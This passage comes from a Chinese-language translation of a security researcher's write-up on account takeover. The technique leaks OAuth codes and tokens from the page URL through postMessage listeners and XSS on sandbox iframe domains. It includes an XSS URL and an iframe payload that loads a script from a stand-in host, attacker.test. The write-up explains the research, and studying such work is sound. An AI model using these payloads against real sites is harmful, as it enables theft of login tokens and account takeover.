 3.在被利用的网站上触发了不太好用的路径，易受攻击的 postMessage-listener 被加载到受害者登陆的页面上，仍然在 URL 中包含代码或令牌。


4.攻击者发送的原始标签发送一堆postmessages至网站的新标签从而获得postmessage -listener以泄漏的当前的URL


5.攻击者发送的原始标签，然后侦听发送给它的消息。当URL在消息中返回时，代码和令牌将被提取并发送给攻击者。

6.攻击者使用代码或令牌冒充受害者登录。

## Gadget 2: 利用sandbox/第三方域上的XSS获取URL


![](https://files.mdnice.com/user/26510/2665809e-14e8-4ae7-96b9-33751762d62a.png)

示例1，从沙盒框架中窃取`window.name`

5月12日，我用这个报告了在野外发现的第一条攻击链:   ( 目前已经公开: `https://hackerone.com/reports/1567186 `)

巧合的是，两天后，也就是5月14日，Youssef Sammouda发表了一篇很棒的博客文章，解释了他使用Gmai劫持Facebook账户的方法(注: https://ysamm.com/?p=763)。这篇博客文章描述了一个类似流程。然而，这个bug并不是关于OAuth相关的，而是通过使用`iframe:d`沙盒域泄露受害者最终的URL，该沙盒域也允许加载任意javascript。沙箱访问URL中的敏感数据的原因是，当iframe加载时，它被附加到沙箱URL。


我发现的案例则有点不同。


第一个是在OAuth流程结束的页面上加载iframe。iframe是window.location对象序列化之后的版本。这是一种旧的跨域传输数据的方法，因为iframe中的页面可以得到由父节点设置的自己的`window.name`:


```
i = document.createElement('iframe');
i.name = JSON.stringify(window.location)
i.srcdoc = '<script>console.log("my name is: " + window.name)</script>';
document.body.appendChild(i)
```

![](https://files.mdnice.com/user/26510/413320bb-f8a1-47c9-b798-0c47e0fa7379.png)

在iframe中加载的域也有一个简单的XSS:

```
https://examplesandbox.com/embed_iframe?src=javascript:alert(1)
```

正如Youssef解释的那样，如果你在一个窗口的一个域上有一个XSS，这个窗口就可以到达其他相同来源的窗口，如果这些窗口之间有父/子/opener关系。


在我的例子中，我做了以下操作:

1.创建了一个恶意的页面，嵌入沙盒的iframe用XSS加载我自己的脚本:

```
<div id="leak"><iframe src="https://examplesandbox.com/embed_iframe?src=javascript:
x=createElement('script'),
x.src='//attacker.test/inject.js',
document.body.appendChild(x);" 
style="border:0;width:500px;height:500px"></iframe></div>

```
